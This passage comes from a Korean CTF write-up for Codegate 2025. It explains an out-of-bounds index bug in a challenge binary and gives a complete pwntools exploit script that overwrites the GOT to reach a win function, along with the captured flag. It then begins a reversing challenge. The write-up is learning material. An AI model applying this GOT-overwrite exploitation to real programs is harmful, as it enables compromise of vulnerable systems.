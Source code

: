 ```c frame='code' title='prob'
  _exit(0);
}
```

`ida`를 통해 `prob` 파일을 디컴파일하면 위와 같은데 1번 메뉴를 선택하였을 때, 행성의 인덱스를 비롯하여 여러 값들을 입력받고 그에 따라 업데이트하는 것을 볼 수 있다. 이 때 인덱스 입력 과정에서 별도의 검증 코드가 존재하지 않기 때문에 `OOB` 취약점이 발생한다.

```c frame='code' title='prob'
void *__fastcall update(__int64 a1, __int64 a2, int a3, int a4, int a5, int a6, char src)
{
  return memcpy((void *)(56 * a2 + a1), &src, 0x38uLL);
}
```

업데이트 함수는 위와 같이 작성되어 있는데 여기서 `a1`은 `objects`라는 전역 변수의 주소이다. 해당 문제의 `prob` 파일에는 `Partial RELRO`와 `No PIE (0x400000)`이기 때문에 해당 전역 변수로 부터 `got`의 오프셋을 구하여 `got overwrite`를 수행할 수 있다.

```python frame='code' title='ex.py'
from pwn import *

p = process('./prob')
# p = remote('3.37.174.221', 33333)
e = ELF('./prob')

pay = p64(e.symbols['win']) + p64(0x0000000000401080) * 2

p.sendlineafter('> ', b'1')

p.sendlineafter(': ', b'-3')
p.sendlineafter(': ', pay)

p.sendlineafter(': ', b'0')
p.sendlineafter(': ', b'0')

print(hex(e.symbols['system']).encode())

p.interactive()
```

주의할 점은 `memcpy` 함수가 덮는 영역 전체를 고려하여야 한다. 원치 않는 값도 함께 덮이는 것을 생각하고 페이로드를 구성해야 한다. 위와 같이 익스플로잇 코드를 작성하여 플래그를 구할 수 있다.

:::note[FLAG]
codegate2025{d23a6bf6e5c63246e91dfe1d5a954b1d2616bad9dbe41d85a975fe333723f<br>5090d23ae3cf0ac9309ab5d25a83019be4f3a707288}
:::

## REV
---

### initial

```c frame='code' title='prob'
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int i; // [rsp+4h] [rbp-3Ch]
  int j; // [rsp+8h] [rbp-38h]
  int k; // [rsp+Ch] [rbp-34h]
  char s[31]; // [rsp+10h] [rbp-30h] BYREF
  char v8; // [rsp+2Fh] [rbp-11h]
  unsigned __int64 v9; // [rsp+38h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  __isoc99_scanf("%32s", s);
  if ( strlen(s) == 32 )
  {
```
